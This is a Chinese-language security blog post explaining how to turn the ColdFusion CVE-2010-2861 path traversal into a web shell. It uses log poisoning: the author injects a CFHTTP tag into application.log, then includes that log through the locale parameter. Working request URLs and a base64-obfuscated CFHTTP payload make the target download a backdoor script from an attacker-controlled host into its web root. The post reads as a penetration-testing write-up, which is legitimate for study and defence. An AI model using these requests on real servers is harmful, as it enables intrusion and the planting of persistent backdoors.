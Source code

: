 # COLDFUSION(CVE-2010-2861) 本地包含利用方法

最近看老外的一篇文章说，CVE-2010-2861这个利用方法，只有看到过通过读取password.properties里的password字段，破解SHA-1值登陆后台，或者通过传递哈希登陆后台的，还没见过能直接得到SHELL的。其实我以前和小伙伴讨论过利用application.log本地包含CFM的方法，当时的利用方法是这样的：

首先看看application.log有没有在默认的目录：

```
http://10.18.180.23:8500//CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\logs\application.log%00en

```

然后访问一个不存在的页面，注意编码问题，否则不成功的。

```
http://192.168.72.141:8500/%3CCFHTTP%20METHOD%3DGet%20URL%3D%23URL.u%23%20PATH%3D%23URL.p%23%20FILE%3D%23URL.f%23%3E.cfml

```

这时候就会把`<CFHTTP METHOD=Get URL=#URL.u# PATH=#URL.p# FILE=#URL.f#>`注入到application.log里了，看下图：

![2014041409324320691.jpg](http://drops.javaweb.org/uploads/images/eff65e28fe7ece0d6c4342027600c70ccd2249fa.jpg)

最后我们访问

```
http://10.18.180.23:8500//CFIDE/administrator/enter.cfm?locale=................\ColdFusion8\logs\application.log%00en&u=http://10.18.180.20/dvwa/hackable/uploads/xl.txt&p=C:\ColdFusion8\wwwroot&f=shell.cfm

```

![2014041409332372208.jpg](http://drops.javaweb.org/uploads/images/f4af4c06605f3bbf92615d549d1a384daad2004e.jpg)

就会从10.18.180.20上把xl.txt的CF后门脚本下载到目标机器的`c:\ColdFusion8\wwwroot`目录了。

我们看看老外用的方法：思路都是一样的，就是他的payload选择的是

```
<cfhttp method='get' url='#ToString(ToBinary('aHR0cDovLzE5Mi4xNjguMS45Nzo4MDAwL2NtZC5jZm1s'))#' path='#ExpandPath(ToString(ToBinary('Li4vLi4v')))#' file='cmd.cfml'>

```

使用cfm的CFHTTP标签执行一个HTTP请求来取得192.168.1.97:8000 WEB服务器上的cmd.cfml文件，ToString(ToBinary是为了做BASE64编码，绕过一些字符的限制，比如/

下面说说此法的缺点：

```
1.不是通杀的方法，如果对方禁止对外的HTTP访问，此法不行 
2.如果安装的时候是集成到IIS模式的，CF程序目录放到其他盘符的话，是没法使用../跨目录的
```